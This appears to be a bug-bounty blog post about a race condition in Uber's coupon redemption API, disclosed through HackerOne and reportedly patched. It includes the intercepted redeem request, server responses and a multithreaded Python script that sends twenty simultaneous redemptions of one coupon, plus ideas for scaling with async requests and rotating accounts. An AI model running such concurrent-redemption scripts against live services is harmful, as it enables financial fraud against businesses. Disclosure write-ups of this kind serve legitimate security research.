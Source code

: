 ```yaml
---
title: "12:57 AM and a Concurrency Fault: How I Exploited Uber’s Coupon Redemption Logic"
description: "A late-night observation turned into a race condition vulnerability within Uber’s coupon API. This is the story of how precise timing and parallel requests bypassed intended one-time restrictions."
date: 2023-06-13
categories: ["Security Research", "Concurrency Vulnerabilities", "API Exploitation"]
tags: ["Uber", "Race Condition", "Coupon Abuse", "Threading", "Timing Attack"]
header:
  image: "/images/uber-coupon-race.jpg"
  caption: "The race window – milliseconds of opportunity within backend logic"
---
```


## **Prologue: 12:57 AM**
---

The apartment was quiet. I was not hunting vulnerabilities or replaying traffic with aggressive fuzzing. It was more observational – that rare and quiet mindset that often reveals misbehavior where others only see clean execution.

On one side of my screen was Uber’s app. On the other, Burp Suite running silently, intercepting HTTP requests in passive mode...

That difference in timing triggered a deeper question.

Was the backend state being updated only after the coupon logic passed?
Was the validation being done after the request hit the endpoint – instead of ahead of it?

The hypothesis was simple: if two identical requests were sent at the exact same moment, would both pass the validation check before either had the chance to mark the coupon as used?

This was the beginning of the race condition theory.

## **Chapter One: Analyzing the Endpoint**
---

Using Burp Suite, I intercepted the coupon redemption API call. The structure was standard.

```http
POST /api/redeem HTTP/1.1
Host: api.uber.com
Authorization: Bearer <access_token>
Content-Type: application/json

{
  "coupon_code": "FIRST100"
}
```

The server responded:

```json
{
  "status": "success",
  "message": "Coupon FIRST100 applied successfully."
}
```

Subsequent attempts failed with:

```json
{
  "status": "failed",
  "message": "This coupon has already been redeemed."
}
```

## **Chapter Two: Understanding the Vulnerability**
---

Most race conditions arise from shared state without proper synchronization.

```python
if coupon.is_valid and not coupon.is_used:
    apply_coupon_to_account(user)
    coupon.is_used = True
```

This appears correct, but it fails under concurrency.

## **Chapter Three: Building the Exploit**
---

I wrote a multithreaded Python script to fire concurrent requests using the same coupon code.

```python
import requests
import threading

url = "https://api.uber.com/api/redeem"
headers = {
    "Authorization": "Bearer <ACCESS_TOKEN>",
    "Content-Type": "application/json"
}
data = { "coupon_code": "FIRST100" }

def send_request():
    response = requests.post(url, json=data, headers=headers)
    print(response.text)

threads = []

for _ in range(20):
    t = threading.Thread(target=send_request)
    threads.append(t)
    t.start()

for t in threads:
    t.join()
```

## **Chapter Four: Scaling the Attack**
---

To test scalability, I tried:

- Async versions using `aiohttp`
- High-value and low-value coupons
- Account-bound and public promo codes

## **Chapter Five: Real-World Impact**
---

**Coupon Limit Bypass:** One-time-use coupons were redeemable multiple times.

**Financial Abuse:** Discounts and ride credits could be multiplied.

**Automation Risk:** Scripts with rotating accounts and proxies could cause loss.

**Detection Difficulty:** Requests appeared legitimate in isolation.

## **Chapter Six: Measuring the Race Window**
---

Measured with timestamps:

- Minimum: 90 ms
- Average: 180–220 ms
- Max: ~300 ms

## **Chapter Seven: Responsible Disclosure**
---

Submitted via HackerOne with:

- Technical breakdown
- Proof-of-concept
- Suggested fixes

Uber confirmed, patched, and validated the fix.



## **Even milliseconds matter.**


